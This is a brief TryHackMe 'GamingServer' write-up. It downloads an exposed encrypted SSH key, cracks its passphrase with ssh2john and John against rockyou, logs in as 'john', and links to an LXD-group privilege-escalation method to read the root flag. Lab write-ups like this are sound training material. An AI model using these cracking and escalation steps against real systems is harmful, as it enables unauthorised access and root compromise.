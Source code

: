 ```yaml
---
title: GamingServer
description: 'Finding an encrypyed SSH key and dictionary and escalating through LXC'
pubDate: 2024-01-04
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/80d16a6756c805903806f7ecbdd80f6d.jpeg'
---
```


With Feroxbuster we find a secretKey, which is an encrypted SSH key.
We can crack it with John:

```bash
wget http://10.10.159.169/secret/secretKey
ssh2john secretKey > ssh_hash
john ssh_hash --wordlist /usr/share/wordlists/rockyou.txt
...snip...
letmein          (secretKey)
```

We also find `http://10.10.159.169/uploads/` which has a dict with the password in it too.

In the HTML source of the index page there is a comment mentioning 'john'.

```bash
ssh -i secretKey john@10.10.159.169 # <- letmein
```

We have LXC installed / configured and are member of that group.

Following this: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2

image name: myimage
storage pool: mycontainer

```bash
cd /mnt/root/root
cat root.txt
```
